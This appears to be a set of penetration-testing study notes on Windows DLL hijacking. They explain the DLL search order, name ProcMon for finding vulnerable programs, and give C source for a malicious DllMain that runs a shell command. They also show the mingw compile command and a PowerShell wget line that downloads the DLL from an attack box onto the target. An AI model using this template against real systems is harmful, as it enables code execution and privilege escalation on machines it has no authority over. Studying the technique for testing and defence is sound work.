 DLL search order: https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order

If **SafeDllSearchMode** is enabled, the search order is as follows:
1.  The directory from which the application loaded.
2.  The system directory. Use the **[GetSystemDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya)** function to get the path of this directory.
3.  The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
4.  The Windows directory. Use the **[GetWindowsDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya)** function to get the path of this directory.
5.  The current directory.
6.  The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the **App Paths** registry key. The **App Paths** key is not used when computing the DLL search path.

If **SafeDllSearchMode** is disabled, the search order is as follows:
1.  The directory from which the application loaded.
2.  The current directory.
3.  The system directory. Use the **[GetSystemDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya)** function to get the path of this directory.
4.  The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
5.  The Windows directory. Use the **[GetWindowsDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya)** function to get the path of this directory.
6.  The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the **App Paths** registry key. The **App Paths** key is not used when computing the DLL search path.

Maybe we can write to one of the above (if the app can't find the legit one first).

### Find DLL hijacking vulns
Install Process Monitor (ProcMon). This needs admin rights so would have to be done on a test system.

### Creating a malicious DLL file
Boliderplate:
```c
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```
The above will execute whoami and save the output to dll.txt.
You need the Mingw compilter, install:
```shell
apt install gcc-mingw-w64-x86-64
```
And compile:
```shell
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```
Now, to get the malicious dll from attack box to target, use the following PowerShell command: (on the target after running a python web server on attack)
```powershell
wget -O hijackme.dll 10.2.112.113:8080/hijackme.dll
```